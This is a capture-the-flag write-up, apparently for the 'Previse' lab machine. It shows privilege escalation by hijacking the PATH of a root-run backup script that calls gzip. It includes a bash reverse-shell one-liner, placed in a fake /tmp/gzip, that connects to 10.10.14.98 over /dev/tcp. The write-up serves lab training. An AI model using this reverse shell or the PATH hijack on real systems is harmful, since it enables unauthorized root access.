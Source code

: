 # Privilege escalation to root
## Running `sudo -l` gives command that can be run as sudo
Running `sudo -l` gives command `/opt/scripts/access_backup.sh` that can be run as sudo .
```bash
m4lwhere@previse:~$ sudo -l
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
m4lwhere@previse:~$
```
Contents of `access_backup.sh` are as follows.
```bash
m4lwhere@previse:~$ cat  /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```
## Inspecting contents of `access_backup.sh` 
Inspecting contents of `access_backup.sh` . gzip command can be path hijacked to gain root.
## Stroring bash reverse shell in file named 'gzip' in /tmp directory and adding /tmp directory to 'PATH' to path hijack gzip binary
Stroring bash reverse shell in file named 'gzip' in /tmp directory and adding /tmp directory to 'PATH' as shown below to path hijack gzip binary.
```bash
m4lwhere@previse:/tmp$ nano gzip
m4lwhere@previse:/tmp$ cat gzip
0<&196;exec 196<>/dev/tcp/10.10.14.98/1234; bash <&196 >&196 2>&196
m4lwhere@previse:/tmp$ chmod +x gzip
m4lwhere@previse:/tmp$ export PATH=/tmp:$PATH
m4lwhere@previse:/tmp$ echo $PATH
/tmp:/tmp:/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/tmp
```
## Getting reverse shell as root running `/opt/scripts/access_backup.sh` as root.
![[Pasted image 20210918124900.png]]



